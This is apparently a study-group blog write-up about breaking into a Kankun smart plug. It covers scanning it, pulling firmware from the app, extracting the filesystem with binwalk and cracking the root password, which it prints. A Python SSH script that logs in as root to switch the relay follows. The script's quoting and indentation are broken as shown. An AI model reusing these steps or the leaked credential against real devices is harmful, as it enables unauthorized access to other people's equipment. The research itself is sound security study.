







# TL;DR

Hacking into old kankun smartplug. Then controlling it with python through terminal 

# Introduction

It has now been almost one year when we started to study upon Internet of Things under IoT
study group , an initiative by Null Bhopal chapter. Internet of Things have indeed made a
revolutionary change in the way we live, making it more comfortable. In this process of learning, one
of our mentor, [Mr. Anant Shrivastava](https://twitter.com/anantshri), sponsored us a smart plug. And there it all started.

# head

The kankun smart plug is controlled by app. The Instruction manual that comes along with the plug gives information of where to download the app from. The next step is to setup it up and connect the smart phone and smart plug to the same wifi network. When successfully configured, the smart plug is added in the device list. Now the smart plug can be controlled remotely via mobile app. There is another feature  **Direct Mode** , where the smart plug acts as a station having SSID : OK_SP3 , and by default there is no password for the network.



After connecting you can control simply control the smart plug with the app.

I also connected my laptop on the same network.  Found the IP address of smart plug with

```
arp -a
```

Then did a `nmap` scan on the smartplug. It suggested that port 22 is open so ssh related attacks are possible.




# Lets get started

First I downloaded the `smartwifi.apk` on my laptop running android tamer.

The very first thing to look for was the firmware.

The reason being it gives the overview of the device’s software. Information such as the filesystem present, bootloader, the different binaries present can be of great use from a pentester’s point of view. Although the firmwares are available on the internet, but in case you are unable to find, the other approach can be to reverse engineer the app. There is a tool named `jadx` that can be used to extract the source code.

​​


Extracting the app shows all the usual folders. We would first time to look for any hard-coded URLs. One can go from all the files one by one but the process is time-consuming. Therefore intelligent use of `grep` can save us a lot of time.

So we are using 

```bash
grep -winr http:
```

This would give us all the url starting with http plus the filename and line number.



The highlighted text in the above screenshot shows the hardcoded url in the file`PreferencesUtil.java`. Since the url ends with `.bin` it might be the firmware file

Then simply use `wget` to download the .bin firmware file.

```bash
wget http://app.jkonke.com/kkeps.bin
```


The app also downloads this firmware and flash it to the device. After downloading the
firmware, run `binwalk` on kkeps.bin binary file. And it provides you with loads of useful information such as : LZMA compressed data, squashfs filesystem, so on and so forth. 

One can download binwalk with

```
apt install -y binwalk
```

`-e` option can be used for extracting the filesystem.

```
binwalk –e kkeps.bin
```





So here is the entire linux file system. So the next step would be to get the root password. Which is
not very difficult if you have the entire file system.

```bash
unshadow /etc/password /etc/shadow > passwd.txt
```

Then one can crack the file using John the Ripper. Password is `p9z34c` Now that we have the root password we can now ssh into the smart plug. To control it with our terminal without the app.

Turning ON and OFF the smart plug can easily done with the help of terminal.

### Turning the smart plug off

```bash
echo 0 > /sys/class/leds/tp-link:blue:relay/brightness
```

### Turning the smart plug on

```bash
echo 1 > /sys/class/leds/tp-link:blue:relay/brightness
```

# Automating

This entire process can be done with the help of this python script that I wrote. This script requires
paramiko library. So you will be required do an

```bash
apt install python-paramiko

```

```python
import paramiko,sys

GREEN=’\033[92m’
BLUE=’\033[94m’
RED=’\033[91m’
RESET=’\x1b[0m’
if len(sys.argv) < 3:
	print “args missing”
sys.exit(1)
host = sys.argv[1]
action = sys.argv[2]
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
print BLUE +”[*]   connecting to device”+ RESET
ssh.connect(host, username=’root’, password=’p9z34c’)
path=’/sys/class/leds/tp-link:blue:relay/brightness’
if sys.argv[2] == ‘on’:
	ssh.exec_command(‘echo 1 >’ + path)
print GREEN +”[*]   turning it ” + action +””+RESET
	elif sys.argv[2] == ‘off’:
ssh.exec_command(‘echo 0 >’ + path)
print RED +”[*]   turning it ” + action +””+RESET
ssh.close()
```

That Is how we controlled the smart plug remotely without the smartplug app.
This report is drafted under the IoT study group, an initiative by Null Bhopal chapter.

# Credits

- Deepanshu Gajbhiye ([deep0x00](https://twitter.com/deep0x00))
- Shreya Pohekar ([shreyapohekar](https://twitter.com/shreyapohekar))